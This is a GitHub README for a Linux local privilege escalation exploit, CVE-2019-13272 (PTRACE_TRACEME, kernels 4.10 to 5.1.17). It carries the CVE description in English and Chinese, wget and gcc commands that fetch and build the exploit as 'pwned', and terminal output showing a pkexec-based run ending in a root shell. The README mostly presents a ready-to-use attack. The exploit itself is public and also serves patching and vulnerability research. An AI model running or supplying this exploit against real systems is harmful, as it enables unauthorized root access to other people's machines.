

# CVE-2019-13272 Linux local root exploit

### Linux 4.10 < 5.1.17 PTRACE_TRACEME local root (CVE-2019-13272)


[](https://asciinema.org/a/6HFa1zk4bZKFjXDcr5LKnyiH1)

```
In the Linux kernel before 5.1.17, 

ptrace_link in kernel/ptrace.c mishandles the recording of the credentials of a process that wants to create a ptrace relationship, 

which allows local users to obtain root access by leveraging certain scenarios with a parent-child process relationship,

where a parent drops privileges and calls execve (potentially allowing control by an attacker). 

One contributing factor is an object lifetime issue (which can also cause a panic). 

Another contributing factor is incorrect marking of a ptrace relationship as privileged, which is exploitable through (for example) Polkit's pkexec helper with PTRACE_TRACEME. 

NOTE: SELinux deny_ptrace might be a usable workaround in some environments.

在5.1.17之前的Linux内核中，
kernel / ptrace.c中的ptrace_link错误地处理了想要创建ptrace关系的进程的凭据记录，
这允许本地用户通过利用父子的某些方案来获取root访问权限 进程关系，父进程删除权限并调用execve（可能允许攻击者控制）。
一个影响因素是对象寿命问题（也可能导致恐慌）。 
另一个影响因素是将ptrace关系标记为特权，这可以通过（例如）Polkit的pkexec帮助程序与PTRACE_TRACEME进行利用。 
注意：在某些环境中，SELinux deny_ptrace可能是一种可用的解决方法。
```




 `wget https://raw.githubusercontent.com/jas502n/CVE-2019-13272/master/CVE-2019-13272.c`
 
 `gcc -s CVE-2019-13272.c -o pwned`
 
```
jas502n@Study:~/Desktop/CVE-2019-13272$ ./pwned 
Linux 4.10 < 5.1.17 PTRACE_TRACEME local root (CVE-2019-13272)                 
[.] Checking environment ...                                                   
[~] Done, looks good                                                           
[.] Searching for known helpers ...                                            
[~] Found known helper: /usr/lib/gnome-settings-daemon/gsd-backlight-helper    
[.] Using helper: /usr/lib/gnome-settings-daemon/gsd-backlight-helper          
[.] Spawning suid process (/usr/bin/pkexec) ...                                
[.] Tracing midpid ...                                                         
[~] Attached to midpid                                                         
To run a command as administrator (user "root"), use "sudo <command>".         
See "man sudo_root" for details.                                               
                                                                               
root@Study:/home/jas502n/Desktop/CVE-2019-13272#
```


### Updated version of Jann Horn's exploit for CVE-2019-13272.

`https://bugs.chromium.org/p/project-zero/issues/detail?id=1903`


